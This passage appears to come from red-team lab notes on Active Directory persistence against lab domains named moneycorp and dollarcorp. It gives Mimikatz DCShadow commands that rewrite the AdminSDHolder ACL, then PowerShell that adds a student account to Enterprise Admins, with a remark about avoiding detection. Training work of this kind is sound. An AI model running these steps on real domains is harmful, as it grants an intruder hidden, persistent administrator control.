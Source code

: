   3. Append this to the original ACL, and write the new ACL to the properties. As SYSTEM: `lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<full ACL string>`. As DA or equivalent permissions: `lsadump::dcshadow /push`
  4. With this permission established, we can now add ourselves to desired groups to gain privileges when required, and tidy up to prevent detection `$user = Get-ADUser student32 -Server dcorp-dc.dollarcorp.moneycorp.local`; `$group = Get-ADGroup -Identity "enterprise admins"`;  `Add-ADGroupMember -Identity $group -Members $user`. Once in the `Enterprise Admins` and `Administrators` groups, we get full access to domain resources. *(Note: To access child domain resources, may have to rejoin machine to child domain and reboot)*


